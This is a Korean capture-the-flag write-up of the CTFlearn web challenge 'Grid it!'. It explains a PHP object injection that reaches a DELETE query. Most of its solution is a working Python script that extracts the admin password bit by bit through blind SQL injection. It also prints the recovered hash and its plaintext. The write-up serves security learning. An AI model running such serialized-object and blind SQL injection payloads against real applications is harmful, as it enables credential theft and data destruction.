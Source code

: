 ```yaml
---
title : "CTFlearn - [Web] Grid it! (풀이 봄)"
categories: [Wargame, CTFlearn]
tags: [Webhacking, CTFlearn, CTFlearn Webhacking, Blind SQL Injection, PHP Object injection, serialize(), unserialize(), 풀이 봄]
---
```


## Grid it!
<hr style="border-top: 1px solid;">

<br>

Link : <a href="https://ctflearn.com/challenge/430" target="_blank">ctflearn.com/challenge/430</a>

<br>

![image](https://user-images.githubusercontent.com/52172169/152643641-efb958d3-2489-4184-b3cf-ccc35b3932ca.png)

<br>

```
Can you bypass the security measures on the site and find the flag? 
I doubt it. 

http://web.ctflearn.com/grid
```

<br>

![image](https://user-images.githubusercontent.com/52172169/152643682-a766b52d-1fe7-4053-bb90-9feb1e689be6.png)

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;">

<br>

가입을 한 뒤 로그인을 해봤는데 로그인이 안됌.

그래서 그냥 로그인을 해보면 아래와 같이 좌표를 입력하는 부분이 나옴. 

<br>

![image](https://user-images.githubusercontent.com/52172169/151774918-21830a84-3f86-42c7-b72a-26c150af2bec.png)

<br><br>

여기서 소스코드를 보면 아래와 같이 ```serialize```화 되어있는 코드가 보임.

<br>

![image](https://user-images.githubusercontent.com/52172169/151775063-a528afd7-6ea9-4889-88fa-294ef1ce7f61.png)

<br><

우선 좌표 입력에는 숫자만 가능해서 포기. 삭제하는 부분에서 어떻게 하면 될 것 같았음. 

우선 코드를 생각해보면 ```point``` 클래스 안에 변수 ```x, y, ID```가 있을 것임.

<br>

여기서 더 못가서 풀이를 살짝 보았는데.. ```delete```를 할 때 아마도 ID 값이 ```DELETE SQL문```의 인자로 넘어갈 것임.

**따라서 ```DELETE FROM ... WHERE ID=$classvar->ID``` 처럼 될 것임.**

그럼 ID 값을 ```0 or 1```로 하면 ```DELETE FROM ... WHERE ID=0 or 1```이 될 것이므로 좌표 값들이 전부 삭제가 되는 것을 볼 수 있음.

이 점을 이용해서 ```Blind SQL Injection```으로 ```table_name, column_name```을 알아낸 뒤 flag가 있는 곳을 찾아야 함.

<br>
<br>

코드는 아래와 같고 ```table_name, column_name, 특정 컬럼의 값들```을 구할 때마다 값들을 바꿔주면 됨.

<br>

```python
import requests

global url, headers, cookies

url = "https://web.ctflearn.com/grid/controller.php"
headers={'Content-Type':'application/x-www-form-urlencoded'}
cookies= {
	'PHPSESSID':'[redacted]',
	'_ga':'[redacted]',
	'__gads':'[redacted]',
	'_gid':'[redacted]'
}

def add_point(): 
	data={'x':'1', 'y':'2'}
	requests.post(url+'?action=add_point',data=data, headers=headers, cookies=cookies)


table_name='' # point, user
column_name='' # user -> username, password, uid

# username='admin'
pw='' # 0c2c99a4ad05d39177c30b30531b119b -> grapevine


for i in range(33,101):
	add_point()

	chklen = 0
	sql_len = 113 if i < 10 else 114

	payload = {
		'action':'delete_point',
		'point':'O:5:"point":3:{s:1:"x";s:1:"1";s:1:"y";s:1:"1";s:2:"ID";s:'+str(sql_len)+':"0 or if((select length(bin(ascii(substr(password,'+str(i)+',1)))) from user where username=\'admin\' limit 0,1)=6,2535270,0)";}'
	}
	requests.get(url, params=payload, headers=headers, cookies=cookies)

	res=requests.get('https://web.ctflearn.com/grid/index.php',headers=headers,cookies=cookies)
	if "ID: 2535270&nbspx:" not in res.text:
		chklen=6
	else:
		chklen=7

	pw_bit=''
	add_point()
	for j in range(1,chklen+1):
		get_len = 117 if i < 10 else 118
		payload = {
			'action':'delete_point',
			'point':'O:5:"point":3:{s:1:"x";s:1:"1";s:1:"y";s:1:"1";s:2:"ID";s:'+str(get_len)+':"0 or if((select substr(bin(ascii(substr(password,'+str(i)+',1))),'+str(j)+',1) from user where username=\'admin\' limit 0,1)=1,2535270,0)";}'
		}
		requests.get(url, params=payload, headers=headers, cookies=cookies)

		res=requests.get('https://web.ctflearn.com/grid/index.php',headers=headers,cookies=cookies)
		if "ID: 2535270&nbspx:" not in res.text:
			pw_bit+='1'
			add_point()
		else:
			pw_bit+='0'

	print("pw_bit[{}] : ".format(i), pw_bit)
	pw+=chr(int(pw_bit,2))
	print("pw :", pw)
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## 참고
<hr style="border-top: 1px solid;">

<br>

Link : <a href="https://github.com/terjanq/Flag-Capture/tree/master/Practice/CTFLearn/GridIt" target="_blank">github.com/terjanq/Flag-Capture/tree/master/Practice/CTFLearn/GridIt</a>

<br>
<br>

